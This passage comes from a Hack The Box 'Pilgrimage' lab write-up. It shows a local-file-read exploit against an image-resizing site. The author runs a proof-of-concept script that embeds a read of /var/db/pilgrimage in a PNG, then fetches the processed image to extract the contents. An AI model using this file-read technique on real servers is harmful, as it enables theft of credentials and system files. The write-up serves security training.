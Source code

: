 Now I got the output of /etc/passwd file as LFI so lets try to get a shell from this ->

I also checked the git files source code and I got this sqlite credentials path file inside register.php file ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Pilgrimage/git]
└─$ cat register.php       
<?php
session_start();
if(isset($_SESSION['user'])) {
  header("Location: /dashboard.php");
  exit(0);
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['username'] && $_POST['password']) {
  $username = $_POST['username'];
  $password = $_POST['password'];

  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("INSERT INTO `users` (username,password) VALUES (?,?)");
  $status = $stmt->execute(array($username,$password));

  if($status) {
    $_SESSION['user'] = $username;
    header("Location: /dashboard.php");
  }
  else {
    header("Location: /register.php?message=Registration failed&status=fail");
  }
}
?>
```
{: .nolineno}
{: .nolineno}

Now lets acccess this file with previous method as we got /etc/passwd file ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Pilgrimage]
└─$ python3 poc.py generate -o sqlite_cred.png -r /var/db/pilgrimage
                                                                                                                                
┌──(kali㉿kali)-[~/Downloads/HTB/Pilgrimage]
└─$ wget http://pilgrimage.htb/shrunk/64fae8323d981.png                                  
--2023-09-08 14:54:04--  http://pilgrimage.htb/shrunk/64fae8323d981.png
Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1117 (1.1K) [image/png]
Saving to: ‘64fae8323d981.png’

64fae8323d981.png               100%[=======================================================>]   1.09K  --.-KB/s    in 0s      

2023-09-08 14:54:05 (177 MB/s) - ‘64fae8323d981.png’ saved [1117/1117]

┌──(kali㉿kali)-[~/Downloads/HTB/Pilgrimage]
└─$ identify -verbose 64faea203f664.png 
Image: 64faea203f664.png
  Format: PNG (Portable Network Graphics)
  Geometry: 5x5
  Class: PseudoClass
  Type: grayscale
  Depth: 8 bits-per-pixel component
  Channel Depths:
    Gray:     8 bits
```